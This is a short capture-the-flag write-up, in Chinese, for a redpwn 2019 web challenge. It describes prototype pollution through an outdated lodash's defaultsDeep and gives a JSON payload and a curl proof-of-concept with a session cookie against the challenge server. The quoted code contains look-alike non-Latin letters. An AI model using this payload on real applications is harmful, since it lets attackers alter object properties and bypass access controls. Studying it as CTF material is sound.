 漏洞 : lodash 版本過期

存在 prototype pollution 問題

利用 "constructor":{"prototype":{"public":true}} 可將所有的 object 的 public 設成 True



問題點：
```
 	parsedBody = _.defaultsDeep({ 
          publiс: false,
          cоntent: '',
        }, JSON.parse(body))
```

POC:
```
curl -X POST -H "Content-Type: application/json" --cookie "user_id=7d3623be52091cef26f6244141cce3f4" -d '{"constructor":{"prototype":{"public":true}}}' http://chall2.2019.redpwn.net:8002/make
```